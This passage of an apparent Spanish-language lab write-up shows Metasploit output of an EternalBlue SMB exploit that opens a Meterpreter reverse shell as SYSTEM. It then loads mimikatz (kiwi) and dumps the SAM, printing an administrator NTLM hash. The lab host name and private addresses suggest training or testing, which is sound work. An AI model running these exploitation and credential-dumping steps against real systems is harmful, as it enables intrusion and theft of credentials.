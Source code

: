 ```
[*] 192.168.5.141:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.5.141:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.5.141:445 - Trying exploit with 17 Groom Allocations.
[*] 192.168.5.141:445 - Sending all but last fragment of exploit packet
[*] 192.168.5.141:445 - Starting non-paged pool grooming
[+] 192.168.5.141:445 - Sending SMBv2 buffers
[+] 192.168.5.141:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.5.141:445 - Sending final SMBv2 buffers.
[*] 192.168.5.141:445 - Sending last fragment of exploit packet!
[*] 192.168.5.141:445 - Receiving response from exploit packet
[+] 192.168.5.141:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.5.141:445 - Sending egg to corrupted connection.
[*] 192.168.5.141:445 - Triggering free of corrupted buffer.
[*] Sending stage (201798 bytes) to 192.168.5.141
[*] Meterpreter session 1 opened (192.168.5.199:4444 -> 192.168.5.141:49460) at 2024-07-30 14:51:43 +0200
[+] 192.168.5.141:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.5.141:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.5.141:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## Cargar kiwi y dumpeo de hashes (Teniendo una shell)

```shell
load kiwi
```

Info:

```
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

```shell
lsa_dump_sam
```

Info:

```
[+] Running as SYSTEM
[*] Dumping SAM
Domain : VULN-SMBV2
SysKey : 398c00341f04880ff6d05411bf9bb5b6
Local SID : S-1-5-21-3493810251-3775582006-1769795684

SAMKey : d7541ea70f23ee8091af2c6953673fac

RID  : 000001f4 (500)
User : Administrador
  Hash NTLM: 7ce21f17c0aee7fb9ceba532d0546ad6

RID  : 000001f5 (501)
User : Invitado
```